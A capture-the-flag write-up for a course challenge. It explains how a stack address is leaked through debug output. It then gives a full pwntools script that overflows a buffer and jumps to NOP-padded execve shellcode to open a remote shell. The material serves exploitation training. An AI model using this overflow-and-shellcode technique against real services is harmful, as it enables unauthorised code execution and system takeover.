 
FLAG{REDACTED}

---

_ASLR? PIE? Fear not, for Buffer overflows, and shellcode are here to the rescue_

1. Like the challenges from previous weeks, the idea was to pop a shell using shellcode and a buffer overflow.
2. The only kink in the process, was that we couldn't simply look at the disassembly to find the address of the buffer.
3. In that case, all we needed was to leak an address on the stack, because the offset to the buffer from a value on the stack would be predictable.
4. The pointer comes in the form of debugging information leaked when the password length is greated than the size of the buffer (0x50)

How the code works:

1. Leak an address by entering excess characters into the password field.
2. Put shellcode to pop a shell in the buffer. Pad with nops.
   1. The size of the buffer is roughly 0x16 bytes, but there are 0x36 bytes until the return address is overwritten. Free real estate!
3. Figuring out the offset to a position in the buffer (0x9e), we overwrite the return address with the calculated address to somewhere in our buffer
4. ???
5. Profit

```
#!/usr/bin/python3

from pwn import *

#p = process('./snake')
p = remote('plsdonthaq.me', 4002)

p.sendlineafter('> ', '3')
p.sendlineafter('passwd:', 'A'*0x50)

p.readuntil('offset ')
ptr = int(p.readuntil('\n', drop=True).decode(), 16)

# chuck a shell
code = asm('''

sub esp, 0x50

push 0
push {}
push {}

mov eax, 0xb
mov ebx, esp
mov ecx, 0
mov edx, 0
mov esi, 0

int 0x80

'''.format(u32('//sh'), u32('/bin')))

nops = asm('nop') * (0x36 - len(code))
ret = ptr - 0x9e

p.sendlineafter('> ', '1')
p.sendline(nops + code + p32(ret))

p.interactive()
```